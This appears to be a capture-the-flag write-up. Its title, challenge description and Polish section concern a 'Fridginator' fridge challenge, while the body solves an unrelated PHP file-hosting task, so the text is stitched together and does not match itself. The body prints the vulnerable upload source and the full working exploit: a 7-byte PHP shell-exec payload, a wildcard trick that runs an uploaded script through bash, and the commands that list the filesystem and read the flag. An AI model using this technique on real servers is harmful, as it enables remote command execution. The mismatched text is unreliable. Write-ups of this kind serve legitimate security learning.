 # Writeup for fridginator

> Solves: 52
> 
> Fridginator 10k - Web/Crypto - 200 pts - realized by clZ
  My brother John just bought this high-tech fridge which is all flashy and stuff, but has also added some kind of security mechanism which means I can't steal his food anymore... I'm not sure I can survive much longer without his amazing yoghurts. Can you find a way to steal them for me?
  [The fridge is here](http://fridge.insomnihack.ch/)

### ENG

### PL
Strona zawierała dwa formularz, jeden do rejestracji, drugi do logowania:

![Screenshot_2.png](Screenshot_2.png)![Screenshot_3.png](Screenshot_3.png)

* Filename (name for created file)
* Content (content for created file, with limit to 7 chars only)

Looking into source reveals:
```html
    <!DOCTYPE html>
    <!--[if lt IE 7]> <html class="lt-ie9 lt-ie8 lt-ie7" lang="en"> <![endif]-->
    <!--[if IE 7]> <html class="lt-ie9 lt-ie8" lang="en"> <![endif]-->
    <!--[if IE 8]> <html class="lt-ie9" lang="en"> <![endif]-->
    <!--[if gt IE 8]><!-->
    <html lang="en"> <!--<![endif]-->
    <head>
        <meta charset="utf-8">
        <meta http-equiv="X-UA-Compatible" content="IE=edge,chrome=1">
        <title>TinyHosting</title>
        <link rel="stylesheet" href="css/style.css">
        <!--[if lt IE 9]><script src="//html5shim.googlecode.com/svn/trunk/html5.js"></script><![endif]-->
    </head>
    <body>
    <!-- <a href="./?src=">src</a>-->
    <form method="post" action="" class="login">
        <p>
            <label for="login">Filename:</label>
            <input type="text" name="filename" >
        </p>
        <p>
            <label for="password">Content:</label>
            <input type="text" name="content" maxlength="7">
        </p>
        <p class="login-submit">
            <button type="submit" class="login-button">Create!</button>
        </p>
            </form>

    </body>
    </html>
```

We saw that one line is commented, so we tried to use `get` parameter with `src` name. Url looked like `http://136.243.194.53/?src=anything`. When we looked at the new source, we had PHP code as well.

```php
<?php
$savepath="files/".sha1($_SERVER['REMOTE_ADDR'].$_SERVER['HTTP_USER_AGENT'])."/";
if(!is_dir($savepath)){
    $oldmask = umask(0);
    mkdir($savepath, 0777);
    umask($oldmask);
    touch($savepath."/index.html");
}
if((@$_POST['filename']) && (@$_POST['content']) ){
    $fp = fopen("$savepath".$_POST['filename'], 'w');
    fwrite($fp, substr($_POST['content'],0,7) );
    fclose($fp);
    $msg = 'File saved to <a>'.$savepath.htmlspecialchars($_POST['filename'])."</a>";
}
?>
    <!DOCTYPE html>
    <!--[if lt IE 7]> <html class="lt-ie9 lt-ie8 lt-ie7" lang="en"> <![endif]-->
    <!--[if IE 7]> <html class="lt-ie9 lt-ie8" lang="en"> <![endif]-->
    <!--[if IE 8]> <html class="lt-ie9" lang="en"> <![endif]-->
    <!--[if gt IE 8]><!-->
    <html lang="en"> <!--<![endif]-->
    <head>
        <meta charset="utf-8">
        <meta http-equiv="X-UA-Compatible" content="IE=edge,chrome=1">
        <title>TinyHosting</title>
        <link rel="stylesheet" href="css/style.css">
        <!--[if lt IE 9]><script src="//html5shim.googlecode.com/svn/trunk/html5.js"></script><![endif]-->
    </head>
    <body>
    <!-- <a href="./?src=">src</a>-->
    <form method="post" action="" class="login">
        <p>
            <label for="login">Filename:</label>
            <input type="text" name="filename" >
        </p>
        <p>
            <label for="password">Content:</label>
            <input type="text" name="content" maxlength="7">
        </p>
        <p class="login-submit">
            <button type="submit" class="login-button">Create!</button>
        </p>
        <?php if(@$msg) echo $msg;?>
    </form>

    </body>
    </html>

<?php if(@$_GET['src']) show_source("index.php");?>
```

Quick analysis of the script and used functions gave us these conclusions:

* We can save the file with any name and extension
* File really can contain only 7 bytes (`substr` is safe function)
* We cannot append content to existing file, because `fwrite` with `w` option saves content always from the first byte

We concluded that the only way to do anything useful is to create an executable file, which will have at most
7 bytes of content. 

First we checked whether PHP files are executed. We submitted a new file:

* filename: `x.php`
* content: `<?=a?>` (`<?=` is a shorthand for `<?php echo`)

After submit, script returns a link to our created link, like:

`http://136.243.194.53/files/27725b3e4b3edf013480032fe2b318ffff4d04c7/x.php`

File printed only `a` without PHP tags, so we knew that the files are interpreted. Next step was to see if we can
call the server console command. So we can create this content ``<?=`w`;`` (`w` is the shortest shell command, showing
who is logged in and what they are doing, while backticks are short for `shell_exec()`).

Result:

`18:27:23 up 1:28, 1 user, load average: 0.08, 0.04, 0.05 USER TTY FROM LOGIN@ IDLE JCPU PCPU WHAT root pts/0 197.0.75.43 16:59 1:27m 0.02s 0.02s`

So we can create interpreted PHP files and we can use server command, but are limited to 7 bytes, with 6 bytes being
reserved for PHP boilerplate. Thus, we have only 1 character for command. We found we can use `*`, which if called,
executes command made of concatenation of filenames in current directory in alphabetical order. From the script we knew that folder always contained file `index.html`, so we can use only commands lexicographically smaller than `index.html`. 

So we created new PHP file:

* filename: `x.php`
* content: ``<?=`*`;``

Next we created this file:

* filename: `bash`
* content: `anythin`

and this one:

* filename: `c.sh`
* content: `ls -R /` (this command lists all files recursively starting with `/`)

Result was as though we executed `bash c.sh`:

`/bin /dev /file_you_want ... a lot of files`

We noticed file `/file_you_want` so we replaced command `ls -R /` with `cat /f*` by submitting file:

* filename: `c.sh`
* content: `cat /f*`

and finally we had the flag from content of file `/file_you_want`.
